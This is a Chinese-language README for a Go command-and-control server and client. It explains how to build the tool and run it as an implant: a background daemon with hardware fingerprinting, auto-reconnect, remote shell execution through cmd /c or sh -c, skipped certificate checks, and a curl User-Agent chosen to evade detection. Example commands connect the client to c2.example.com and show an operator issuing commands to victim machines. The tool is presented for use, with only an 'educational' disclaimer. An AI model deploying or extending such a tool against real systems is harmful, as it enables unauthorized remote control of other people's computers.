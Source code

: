 "# C2 Server and Client Implementation

基于 Go 实现的 C2（Command and Control）服务器与客户端。

## 项目概述

该项目包含两个主要组件：

- **C2 服务器 (`server.go`)** - 管理连接的客户端并发送命令  
- **客户端 (`client.go`)** - 在目标机器上运行，连接服务器并执行命令

客户端会收集系统信息（如硬件指纹、IP 地址等）并连接至服务器，服务器操作员可以选择客户端并远程下发命令执行。

---

## 📁 目录结构

```
text
├── server.go       # C2 服务器源码
├── client.go       # 客户端源码
└── README.md       # 本说明文档
```

---

## ✨ 功能特性

### 服务器功能

- WebSocket 服务端监听客户端连接
- 客户端管理（UUID、IP 地址、连接状态）
- 交互式命令行界面
- 客户端选择与命令发送
- 实时显示客户端命令执行结果
- 多客户端并发管理

### 客户端功能

- 生成稳定的机器指纹（基于硬件信息）
- 获取公网 IPv4/IPv6 地址
- 守护进程模式（后台运行）
- 自动重连机制
- 心跳保持连接
- 命令执行与结果返回
- 跨平台支持（Windows/Linux/macOS）

---

## 🚀 使用指南

### 1. 编译程序

编译服务器：

```bash
go build -o c2-server server.go
```

编译客户端：

```bash
go build -o client client.go
```

---

### 2. 运行服务器

```bash
./c2-server -p 8080
```

- `-p`: 指定监听端口（默认：8080）

---

### 3. 运行客户端

```bash
./client -s wss://your-server-address:8080/ws -d
```

- `-s`: 服务器 WebSocket URL（支持 `ws://` 和 `wss://`）
- `-d`: 后台守护模式

> ⚠️ 客户端首次运行可能需要管理员/root 权限以获取硬件信息

---

## 🖥️ 服务器命令行操作

启动服务器后，会显示交互式 CLI：

```text
C2 Server CLI - Type 'help' for commands
> 
```

### 可用命令

| 命令              | 描述                       | 示例                                               |
|-------------------|----------------------------|----------------------------------------------------|
| `help`            | 显示帮助信息               | `help`                                             |
| `list`            | 列出所有在线客户端         | `list`                                             |
| `select [ID]`     | 选择客户端（编号或 UUID）  | `select 1` 或 `select 550e8400-e29b...`            |
| `cmd [command]`   | 向客户端发送命令           | `cmd whoami`                                       |
| `quit` / `exit`   | 关闭服务器                 | `quit`                                             |

---

### 客户端列表示例

```text
=== Online Clients ===
*  1. 550e8400... (IPv4: 192.168.1.100, IPv6: 2001:db8::1)
   2. 6ba7b810... (IPv4: 10.0.0.2, IPv6: ::)
```

`*` 表示当前选中的客户端

---

## 🔍 技术细节

### 客户端标识生成

使用以下硬件信息生成唯一 ID（通过 SHA-256 哈希并截断为 16 字符）：

- 主 MAC 地址  
- 系统磁盘序列号  
- BIOS/UEFI 序列号  
- 主板序列号

---

### 连接流程

1. 客户端启动并收集系统信息  
2. 连接至 WebSocket 服务器  
3. 发送 Base64 编码的系统信息  
4. 服务器注册客户端并显示在列表中  
5. 维持心跳连接（每 30 秒）

---

### 命令执行方式

- **Windows**: `cmd /c [command]`
- **Linux/macOS**: `sh -c [command]`

---

## 🔐 安全注意事项

- **通信安全**：
  - 推荐使用 TLS 加密（`wss://`）
  - 默认跳过证书验证，生产环境应配置合法证书

- **权限控制**：
  - 客户端可能需管理员/root 权限获取硬件信息
  - 服务器应部署在受控环境中

- **匿名性**：
  - 客户端使用 `ip.sb` 获取公网 IP
  - 使用标准 `curl` User-Agent 减少特征化

---

## 📦 依赖项

```bash
go get github.com/gorilla/websocket
```

---

## ⚠️ 已知限制

- Windows 可能需关闭防火墙以进行测试  
- 在虚拟机环境下可能无法完整获取硬件信息  
- IPv6 检测依赖网络支持  
- 命令输出受限于 WebSocket 消息大小

---

## ✅ 使用示例

启动服务器：

```bash
./c2-server -p 443
```

在客户端运行（后台模式）：

```bash
./client -s wss://c2.example.com/ws -d
```

服务器控制示例：

```text
> list
> select 1
> cmd uname -a
> cmd ipconfig /all
```

---

## 📄 许可证

此代码仅用于教育目的，**严禁用于未经授权的实际环境**。  
使用本项目造成的任何后果由使用者自行承担。
"